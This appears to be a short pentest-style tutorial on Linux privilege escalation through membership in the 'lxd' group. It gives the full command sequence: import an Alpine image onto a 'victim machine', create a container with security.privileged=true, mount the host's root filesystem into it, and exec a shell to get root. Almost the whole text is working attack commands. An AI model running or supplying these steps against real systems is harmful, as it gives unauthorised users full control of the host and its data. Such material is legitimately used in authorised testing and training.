 How to escalate priviledge when user have `lxd` group permission.
## Prepare

Download and create image
```bash
git clone https://github.com/lxd-images/alpine-3-7-apache-php5-6
cd alpine-3-7-apache-php5-6
cat alpine-3-7-apache-php5-6.tar.bz2.* > alpine-3-7-apache-php5-6.tar.bz2
```

## Transfer image to victim machine ( via web, copy)


## Escalate Priviledge
- Import image:
```bash
lxc image import alpine-3-7-apache-php5-6.tar.bz2
```
- Show the image
```bash
lxc image ls
```
- Init the image:
```bash
lxc init IMAGENAME CONTAINERNAME -c security.privileged=true
```
_Ex: lxc init myimage strongbad -c security.privileged=true_
> If you get the error above you need to use the configuration below
```bash
lxd init
```
using default config, then tried to init with `lxc` again

- Check the container
```bash
lxc list
```

- Mount `root` directory to container
```bash
lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true
```

_Ex: lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true_

- Start container
```bash
lxc start CONTAINERNAME
```
_Ex: lxc start strongbad_
```sh
lxc exec CONTAINERNAME /bin/sh
```

_Ex: lxc exec strongbad /bin/sh_

- We'll then run just a few more commands to mount our storage and verify we've escalated to root:
```sh
id
cd /mnt/root/root
```
